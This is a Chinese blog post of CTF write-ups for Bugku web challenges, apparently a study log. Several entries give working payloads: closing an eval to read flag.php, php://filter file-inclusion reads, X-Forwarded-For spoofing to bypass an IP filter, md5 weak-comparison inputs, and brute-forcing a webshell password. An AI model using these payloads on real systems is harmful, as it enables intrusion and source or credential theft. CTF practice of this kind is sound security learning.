 ```yaml
---
layout: post
title:  "Bugku-web 结题思路(持续更新)"
date:   2019-1-16 20:49:43 
author: co0ontty
categories: CTF  WEB ALL
tags: CTF  WEB ALL
describe: Bugku web wp
cover: 'https://i.loli.net/2019/04/04/5ca5adcb6096c.png'
---
```


## 1、web2：

查看网页源码即可看到 flag  

## 2、计算器：

发现计算结果均为二位数，但是只能输入一个数字。使用检查功能（F12）将输入框中的 maxlength="1"改为 maxlength="2"即可  

## 3、web 基础$_GET

阅读代码发现需要使用 GET 方法传递参数，$what=='flag'。根据 GET 方法通过 URL 传递参数的特点，在题目 URL 后面添加 ?what=flag 即可获得答案。  

## 4、wen 基础$——Post

同$_GET 题目，但是需要使用 Post 方法传递参数，使用 FireFox 中的 hackbar 插件传递参数值，如下图。  
![avatar](/assets/img/posts/Bugkuweb-1.png)  

## 5、矛盾

代码中使用!is_numeric($num)函数判断 num 是否为数字，题目要求 num 的值不为数字且值为 1。所以构造值为一的非数字值。可以使用 1%00 （%00 截断符）构造 payload 获得 flag  

## 6、web3

查看网页源代码在最后可以发现字符串“&#75;&#69;&#89;&#123;&#74;&#50;&#115;&#97;&#52;&#50;&#97;&#104;&#74;&#75;&#45;&#72;&#83;&#49;&#49;&#73;&#73;&#73;&#125;”，该字符串为常见的 unicode 编码，可以使用站长工具在线解析，同时可以使用 html 编码格式进行解析，将该字符串直接复制到 html 文件中即可自动解析出原有格式“KEY{J2sa42ahJK-HS11III}” 

## 7、域名解析

通过设置本机 hosts 文件实现无权限直接访问需要域名解析才能访问的 ip，设置 hosts 文件后访问 flag.baidu.com 即可

## 8.你必须让他停下来

打开发现网页一直在变，使用 burp 抓包，send to repeter 使用 go 逐一显示网页，即可看到 flag。

## 9.本地包含

源代码：

```php

<?php 
    include "flag.php"; 
    $a = @$_REQUEST['hello']; 
    eval( "var_dump($a);"); 
    show_source(__FILE__); 
?>
```

eval 应该是此题的突破口，能够执行 php 代码。
hello 是接受参数的变量，接下来就是构建 hello 变量，使其能够闭合 var_dump，利用 print_r 输出  
首先闭合 var_dump: 1);
第二步构建 print_r：print_r(file("./flag.php"));
URL 构建结束：
http://123.206.87.240:8003/index.php?hello=1);print_r(file("./flag.php")
构建的 URL 触发的 eval 操作为

```php
eval("var_dump(1);print_r(file("./flag.php")")
```

#### 方法二：

直接将文件包含在参数 hello 中  

```php
?hello=get_file_contents('flag.php')
?hello=file('flag.php')
```

## 11.web5

查看题目源代码发现存在 Jsfuck，在控制台中输入该串代码，得到 flag  
![avatar](/assets/img/posts/Bugkuweb-2.png)     

## 12.头等舱

使用 burpsuit 抓包得到 flag  
![avatar](/assets/img/posts/Bugkuweb-3.png)    

## 13.网站被黑

查看题目 URL 发现路径十分的有特点，怀疑是通过上传 webshell 获得网站权限来挂载黑页。使用 burp 爆破后台目录，发现存在 shell.php。爆破 shell.php 的密码为 hack，登录获得 flag。  

## 14.管理员系统

打开网页尝试登录后发现对 ip 进行了过滤  
![avatar](/assets/img/posts/Bugkuweb-4.png)      
查看源码发下在最末尾有 base64 加密的字符串 dGVzdDEyMw==，解码后为 test123  
使用 Burp 进行抓包，传递 X-Forwarded-For: 127.0.0.1 测试本地上传是否可以绕过 ip 过滤限制  
绕过 ip 过滤限制后使用 admin 和 test123 登录得到 flag  
![avatar](/assets/img/posts/Bugkuweb-5.png)    

## 15.web4

查看源码

```php
<script>
var p1 = '%66%75%6e%63%74%69%6f%6e%20%63%68%65%63%6b%53%75%62%6d%69%74%28%29%7b%76%61%72%20%61%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%73%73%77%6f%72%64%22%29%3b%69%66%28%22%75%6e%64%65%66%69%6e%65%64%22%21%3d%74%79%70%65%6f%66%20%61%29%7b%69%66%28%22%36%37%64%37%30%39%62%32%62';
var p2 = '%61%61%36%34%38%63%66%36%65%38%37%61%37%31%31%34%66%31%22%3d%3d%61%2e%76%61%6c%75%65%29%72%65%74%75%72%6e%21%30%3b%61%6c%65%72%74%28%22%45%72%72%6f%72%22%29%3b%61%2e%66%6f%63%75%73%28%29%3b%72%65%74%75%72%6e%21%31%7d%7d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%6c%65%76%65%6c%51%75%65%73%74%22%29%2e%6f%6e%73%75%62%6d%69%74%3d%63%68%65%63%6b%53%75%62%6d%69%74%3b';
eval(unescape(p1) + unescape('%35%34%61%61%32' + p2));
</script>
```

按照最后一行代码的要求拼接字符串后进行 URL DECODE 为  

```php
function checkSubmit(){var a=document.getElementById("password");if("undefined"!=typeof a){if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)return!0;alert("Error");a.focus();return!1}}document.getElementById("levelQuest").onsubmit=checkSubmit;
```

在输入框中输入 67d709b2b54aa2aa648cf6e87a7114f1 获得 flag

## 16.flag 在 index 里

题目 URL 为http://123.206.87.240:8005/post/index.php?file=show.php 发现可以使用文件包含漏洞   
文件包含漏洞，发现了一种伪协议的方法， 为了读取包含有敏感信息的 PHP 等源文件，我们就要先将“可能引发冲突的 PHP 代码”编码一遍，这里就会用到 php://filter ，可以将 php 中的代码呈现出来，具体用法如下：
http://123.206.87.240:8005/post/index.php?file=php://filter/read=convert.base64-encode/resource=index.php   

## 17.点击一百万次

查看网页源代码

```php
<script>
    var clicks=0
    $(function() {
      $("#cookie")
        .mousedown(function() {
          $(this).width('350px').height('350px');
        })
        .mouseup(function() {
          $(this).width('375px').height('375px');
          clicks++;
          $("#clickcount").text(clicks);
          if(clicks >= 1000000){
              var form = $('<form action="" method="post">' +
                        '<input type="text" name="clicks" value="' + clicks + '" hidden/>' +
                        '</form>');
                        $('body').append(form);
                        form.submit();
          }
        });
    });
  </script>
```

发现如下<script>代码，通过 post 传递 clicks 的参数  
![avatar](/assets/img/posts/Bugkuweb-6.png)  
获得 flag   

## 18.备份是个好习惯

使用源码泄露工具测试网站是否存在备份文件泄露的漏洞
![avatar](/assets/img/posts/Bugkuweb-7.png)  
工具下载地址（https://coding.net/u/yihangwang/p/SourceLeakHacker/git?public=true） 
发现备份文件 index.php.bak 泄露  
打开 index.php.bak 发现如下代码：

```php
<?php
include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```

```php
$str = str_replace('key','',$str);
```

将 key 替换成空，即删除 key 字符串  

```php
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
```

md5 弱类型比较漏洞，构造 payload 方式如下：
①使用弱类型比较漏洞，常用字符串如下：  
QNKCDZO

240610708

s878926199a

s155964671a

s214587387a

s214587387a
这些字符串 md5 加密后的值都为 0exxxx 形式，即为科学记数法，值相同。
payload：  
http://123.206.87.240:8002/web16/?kkeyey1=QNKCDZO&kekeyy2=240610708    
②md5()函数无法处理数组，如果传入的为数组，会返回 NULL，所以两个数组经过加密后得到的都是 NULL,也就是相等的。
payload:  
http://123.206.87.240:8002/web16/?kkeyey1[]=1&kekeyy2[]=2  

